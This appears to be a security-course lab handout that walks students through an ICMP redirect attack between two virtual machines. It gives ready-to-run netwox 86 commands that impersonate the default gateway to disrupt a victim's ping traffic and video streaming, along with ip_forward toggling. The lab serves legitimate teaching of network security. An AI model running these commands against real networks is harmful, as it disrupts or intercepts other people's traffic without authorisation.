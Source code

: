 ## ICMP Redirect Attack

### Requirement

In this lab, you will disrupt a victim machine's ICMP traffic using the ICMP redirect attack; and then, using the same attack, you disrupt a victim's video streaming service.

### Setup

2 Linux VMs. VM1 as the victim; VM2 as the attacker. The 2 VMs do not need to be in the same network - however, this lab has only been tested when the two VMs are in the same network.

### Preparation steps:

This attack only requires one netwox command, let's prepare the command first. This command is: sudo netwox 86 --device "ens33" --filter "src host victim_ip_address" --gw "attacker_ip_address" --src-ip "trusted_gateway_ip_address" --code 1

what this command does is: the attacker, mimicking the default gateway, sends an icmp redirect message to tell the victim: hey, please, going forward, use the attacker's ip address as your new gateway.

1. if the attacker's network interface card is not named "ens33", then change "ens33" to the network interface card's name.
2. replace "victim_ip_address" with your victim's IP address.
3. replace "attacker_ip_address" with your attacker's IP address.
4. find "trusted_gateway_ip_address" with netstat -r command. Following is an example, run netstat -r on the victim VM.

```console
[02/14/22]seed@VM:~$ netstat -r
Kernel IP routing table
Destination     Gateway         Genmask         Flags   MSS Window  irtt Iface
default         172.16.77.2     0.0.0.0         UG        0 0          0 ens33
link-local      *               255.255.0.0     U         0 0          0 ens33
172.16.77.0     *               255.255.255.0   U         0 0          0 ens33
[02/14/22]seed@VM:~$ 
```

The above command says 172.16.77.2 is the default gateway, so that's the gateway the victim machine trusts. Therefore, let's assume the victim's ip address is 172.16.77.128, and the attacker's ip address is 172.16.77.129, then we should come up with this following command:

sudo netwox 86 --device "ens33" --filter "src host 172.16.77.128" --gw "172.16.77.129" --src-ip "172.16.77.2" --code 1

question: can you find out what "--code 1" means?

### Attack steps:

1. victim, run: 

```console
$ ping www.google.com
```

make sure you ping command works and you do get response from google, otherwise this lab makes no sense. if ping works, press ctrl-c to stop the ping command and move on to step 2.

2. attacker, run that attack command: 

```console
$ sudo netwox 86 --device "ens33" --filter "src host 172.16.77.128" --gw "172.16.77.129" --src-ip "172.16.77.2" --code 1
```

3. victim, run: 

```console
$ ping www.google.com (this time it should still succeed)
```

4: attacker, press ctrl-c to stop the attack command.
5: victim, run: 

```console
$ ping www.google.com (this time it should fail, thus it proves the attack is successful.)
```

6: attacker, run: 

```console
$ sudo sysctl net.ipv4.ip_forward=1 (immediately the victim's ping will then succeed, explain why?)
```

7: attacker, run: 

```console
$ sudo sysctl net.ipv4.ip_forward=0 (turning this off so our attack will succeed.)
```

the next two steps attempt a new attack which disrupts the victim's video streaming service:

8: victim, open firefox, watch some youtube video.
9: attacker, run the exact same attack command as before: 

```console
$ sudo netwox 86 --device "ens33" --filter "src host 172.16.77.128" --gw "172.16.77.129" --src-ip "172.16.77.2" --code 1 (if successful, victim won't be able to watch the youtude video)
```
